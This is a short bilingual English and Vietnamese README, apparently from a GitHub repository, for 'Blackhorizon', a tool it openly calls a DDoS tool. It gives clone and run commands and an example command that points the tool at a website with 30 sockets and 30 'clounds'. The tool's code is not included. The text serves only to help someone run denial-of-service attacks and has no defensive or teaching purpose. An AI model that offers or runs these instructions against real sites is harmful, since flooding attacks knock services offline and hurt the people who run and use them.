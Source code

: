 ## English
# How to install the Blackhorizon DDoS tool?
*`git clone https://github.com/le-cuong-hacker1111/Blackhorizon.git`

*`cd Blackhorizon`

# How to use the Blackhorizon DDoS tool?
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Number of concurrent clounds     (default: 1)

# -s, --sockets Number of concurrent sockets     (default: 1)

## Việt Nam
# Làm thế nào để cài đặt tool DDoS Blackhorizon?
*`git clone https://github.com/le-cuong-hacker1111/Blackhorizon.git`

*`cd Blackhorizon`

# Làm thế nào để sử dụng tool DDoS Blackhorizon
*`python2 blackhorizon.py`

*`python2 blackhorizon.py https://www.example.com -s 30 -c 30`

# -c, --clounds Số lượng cụm đồng thời (mặc định: 1)

# -s, --sockets Số lượng ổ cắm đồng thời (mặc định: 1)
